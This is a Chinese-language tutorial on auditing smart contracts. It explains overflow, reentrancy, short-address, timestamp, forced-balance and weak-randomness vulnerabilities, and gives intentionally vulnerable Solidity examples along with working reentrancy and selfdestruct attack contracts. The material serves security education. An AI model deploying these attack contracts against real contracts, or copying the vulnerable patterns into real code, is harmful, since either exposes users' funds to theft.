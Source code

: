 ## 智能合约常见漏洞审计
 **整数溢出**
 在solidity0.8.0开始，加入了自动检查溢出功能，此版本之后的合约,不必担心这个漏洞。
```Solidity
  function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
    uint cnt = _receivers.length;
    uint256 amount = uint256(cnt) * _value;
    require(cnt > 0 && cnt <= 20);
    require(_value > 0 && balances[msg.sender] >= amount);

    balances[msg.sender] = balances[msg.sender].sub(amount);
    for (uint i = 0; i < cnt; i++) {
        balances[_receivers[i]] = balances[_receivers[i]].add(_value);
        Transfer(msg.sender, _receivers[i], _value);
    }
    return true;
  }
```
batchTransfer 函数，它用于给地址列表中的所有地址都转账 _value,
但是没有检查 amount 是否溢出，这导致每个人的转账金额 _value 很大，
但是总共的 amount 却接近0.
所以要引入:library SafeMath {} 来规避掉溢出问题.

**重入攻击**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
当攻击者调用储币合约中的 withdraw 函数时，withdraw 使用 call 底层调用发送以太币，
此时接收者是攻击者的 fallback 函数，因此如果在 fallback 函数中重新调用 withdraw 函数，
并且没有检查机制，就会发生重入攻击。

**payable函数导致合约余额更新**
当函数执行时，合约会先读取到交易对象，因此合约的余额会变成原来的余额+msg.value,
某些合约可能会未注意到余额的变化而产生漏洞。
**短地址攻击**
因为交易中data参数是原始的调用数据经过ABI编码的数据，ABI规则中常常会为了凑够32字节，在对原始参数编码时进行符号扩充。因此，如果输入的地址太短，那么编码时不会检查，就会直接补零，导致接收者改变。
**挖矿属性依赖**
合约中有部分内置变量，这些变量会受到矿工的影响，因此不应该把它们当作特定的判断条件。
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
contract Roulette {
    uint public pastBlockTime;
    fallback() external payable {
        require(msg.value == 10 ether);
        require(block.timestamp != pastBlockTime);
        pastBlockTime = block.timestamp;
        if(block.timestamp % 15 == 0){//依赖了区块时间戳
        payable(msg.sender).transfer(address(this).balance);
        }   
    }
}
```
**合约余额依赖**
selfdestruct函数是内置的强制执行的函数，因此即使合约没有可接受以太币的方法，
其他人依然可以通过强制执行selfdestruct函数改变合约余额，所以要仔细检查是否将合约余额作为判断标准。
例如，下面的合约，规定只有恰好7 ether的才能胜出，但是攻击者可以通过selfdestruct函数让没有人能够达到 7 ether.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");//只有合约余额达到 7 ether 才能成功

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```
**悬赏白帽子处理黑客潜规则**
**随机数攻击**
针对智能合约生成算法进行攻击，预测生成结果。目前区块链上很多合约都是采用的链上信息，
如区块时间戳，未来区块哈希等。作为游戏合约的随机数源，也称种子。使用这种种子生成的随机数
被称为伪随机数。它不是真的随机数，存在被预测的可能。当使用可被预测的种子生成随机数的时候，
一旦生成算法被攻击者猜到或通过逆向方式拿到攻击者就可以实现预测。
由于区块链上的数据对所有人都公开透明，完全可以提前拿到数据，并计算结果。做法就是，创建一个攻击合约
attack，这个合约中先预测结果，再决定是否调用其它函数。由于两个合约再同一个区块中被运行，也就是说它们拿到的
区块难度值和时间戳相同，所以攻击者有能力先预测结果在调用。         

**自毁函数攻击**
自毁函数是一个很隐蔽的可以发送以太的方法。攻击者可以利用该函数，向目标合约强制转账，从而影响目标合约的正常功能。
由于这个合约没有fallback和receive函数，所以不会接受外部发来的以太。若黑客绕开deposit函数充入以太，则游戏便无法
进行了，不会再产生赢家。而如何绕开deposit函数呢？就是利用selfdestruct函数向攻击目标合约强制转账，黑客先在攻击合约中
存满7个以太，然后执行自会函数。那么七个以太就会强制转账给目标合约了。以太坊留有后门，可以通过自会函数强制转账，即使被
攻击的合约没有fallback或receive函数。           


